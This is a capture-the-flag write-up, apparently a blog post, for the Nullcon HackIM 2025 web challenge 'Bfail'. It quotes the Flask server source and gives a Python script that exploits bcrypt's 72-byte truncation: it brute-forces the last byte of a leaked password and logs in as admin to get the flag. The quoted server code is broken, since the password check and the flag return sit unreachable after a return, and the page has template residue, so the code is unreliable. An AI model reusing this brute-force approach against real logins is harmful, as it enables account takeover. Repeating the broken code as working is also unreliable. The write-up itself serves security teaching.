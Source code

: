```yaml
---
title: "Nullcon Goa HackIM 2025 CTF: Bfail"
date: 2025-02-02T11:56:00.487Z
draft: false
author: dajeff
tags: [web]
---
```



<link rel="stylesheet" href={css}></link>

> To 'B' secure or to 'b' fail? Strong passwords for admins are always great, right?
>
> Author: @gehaxelt
>
> http://52.59.124.14:5013

The page source hints that we can view the server source code at http://52.59.124.14:5013/source.

```py
from flask import Flask, request, redirect, render_template_string
import sys
import os
import bcrypt
import urllib.parse

app = Flask(__name__)
app.secret_key = os.urandom(16)
# This is super strong! The password was generated quite securely. Here are the first 70 bytes, since you won't be able to brute-force the rest anyway...
# >>> strongpw = bcrypt.hashpw(os.urandom(128),bcrypt.gensalt())
# >>> strongpw[:71]
# b'\xec\x9f\xe0a\x978\xfc\xb6:T\xe2\xa0\xc9<\x9e\x1a\xa5\xfao\xb2\x15\x86\xe5$\x86Z\x1a\xd4\xca#\x15\xd2x\xa0\x0e0\xca\xbc\x89T\xc5V6\xf1\xa4\xa8S\x8a%I\xd8gI\x15\xe9\xe7$M\x15\xdc@\xa9\xa1@\x9c\xeee\xe0\xe0\xf76'
app.ADMIN_PW_HASH = b'$2b$12$8bMrI6D9TMYXeMv8pq8RjemsZg.HekhkQUqLymBic/cRhiKRa3YPK'
FLAG = open("flag.txt").read();


@app.route('/source')
def source():
    return open(__file__).read()


@app.route('/', methods=["GET"])
def index():
    username = request.form.get("username", None)
    password = request.form.get("password", None)
    if username and password:
        username = urllib.parse.unquote_to_bytes(username)
        password = urllib.parse.unquote_to_bytes(password)
    if username != b"admin":
        return "Wrong user!"
    if len(password) > 128:
        return "Password too long!"
        if not bcrypt.checkpw(password, app.ADMIN_PW_HASH):
            return "Wrong password!"
        return f"""Congrats! It appears you have successfully bf'ed the password. Here is your {FLAG}"""  # Use f-string formatting within the template string
    # ...
```

Our goal is to find a string that hashes to `app.ADMIN_PW_HASH`.

The comment gives 71 bytes of the password, despite saying it gives 70. Giving 71 bytes of the password seems strange, so we'll do some research on the `bcrypt.hashpw` format (e.g. how many bytes the salt takes up, etc) to see how much information 71 bytes really gives us.

After finding the [documentation](https://passlib.readthedocs.io/en/stable/lib/passlib.hash.bcrypt.html#security-issues), it turns out that ``only the first 72 bytes of a password are hashed,'' so we only need to brute force the last (72nd) byte of the effective password to find a string that matches the admin password hash.

```py
import bcrypt
import requests

admin = b'$2b$12$8bMrI6D9TMYXeMv8pq8RjemsZg.HekhkQUqLymBic/cRhiKRa3YPK'
salt = b'$2b$12$8bMrI6D9TMYXeMv8pq8Rje'
for b in range(256):
    password = b'\xec\x9f\xe0a\x978\xfc\xb6:T\xe2\xa0\xc9<\x9e\x1a\xa5\xfao\xb2\x15\x86\xe5$\x86Z\x1a\xd4\xca#\x15\xd2x\xa0\x0e0\xca\xbc\x89T\xc5V6\xf1\xa4\xa8S\x8a%I\xd8gI\x15\xe9\xe7$M\x15\xdc@\xa9\xa1@\x9c\xeee\xe0\xe0\xf76' + b.to_bytes()
    h = bcrypt.hashpw(password, salt)
    if h == admin:
        break

# password = b"\xec\x9f\xe0a\x978\xfc\xb6:T\xe2\xa0\xc9<\x9e\x1a\xa5\xfao\xb2\x15\x86\xe5$\x86Z\x1a\xd4\xca#\x15\xd2x\xa0\x0e0\xca\xbc\x89T\xc5V6\xf1\xa4\xa8S\x8a%I\xd8gI\x15\xe9\xe7$M\x15\xdc@\xa9\xa1@\x9c\xeee\xe0\xe0\xf76\xaa"

session = requests.Session()
print(session.get("http://52.59.124.14:5013", data={"username": "admin", "password": password}).text)
```

Flag: `ENO{BCRYPT_FAILS_TO_B_COOL_IF_THE_PW_IS_TOO_LONG}`
